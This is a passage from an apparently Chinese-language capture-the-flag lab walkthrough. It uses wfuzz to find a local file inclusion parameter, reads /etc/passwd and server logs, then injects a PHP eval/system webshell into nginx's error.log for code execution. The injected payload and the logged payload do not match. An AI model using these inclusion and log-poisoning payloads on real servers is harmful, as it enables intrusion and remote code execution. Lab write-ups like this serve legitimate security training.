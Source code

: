     Target: http://192.168.75.175/thankyou.php?FUZZ=/etc/passwd
    Total requests: 3024
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000001053:   200        70 L     104 W      2319 Ch     "file"
    
    ```
    
    混淆出参数`file` ，可能就是使用`file` 参数来包含文件的，成功包含`/etc/passwd`
    
    ![image.png](image%2032.png)
    
5. 因为不存在登陆页面，所以包含了`/etc/passwd`文件也没用，根据`CTF`的思路我们尝试包含日志文件
    
    ```python
    /thankyou.php?file=/var/log/nginx/access.log
    ```
    
    包含成功！
    
6. 尝试后，`UA`插入`php`代码不成功。最后，我们可以将`php`代码插入到`file`参数后，使其发生错误，然后将该语句留在`error.log`里
    
    （这里开始靶机IP改为`176`，之前乱搞把之前的靶机搞坏了）
    
    ```python
    http://192.168.75.176/thankyou.php?file=<?php system($_POST['a']); ?>
    ```
    
    包含`error.log` ,存在`&lt;?php @eval($_POST['b']); ?&gt;` 即可
    
    ```python
    2024/11/03 04:37:36 [error] 557#0: *63 FastCGI sent in stderr: "PHP message: PHP Warning:  include(&lt;?php @eval($_POST['b']); ?&gt;): failed to open stream: No such file or directory in /var/www/html/thankyou.php on line 44
    PHP message: PHP Warning:  include(): Failed opening '&lt;?php @eval($_POST['b']); ?&gt;' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/html/thankyou.php on line 44" while reading response header from upstream, client: 192.168.75.1, server: _, request: "GET /thankyou.php?file= HTTP/1.1", upstream: "fastcgi://unix:/var/run/php5-fpm.sock:", host: "192.168.75.176", referrer: "http://192.168.75.176/thankyou.ph"
    ```
    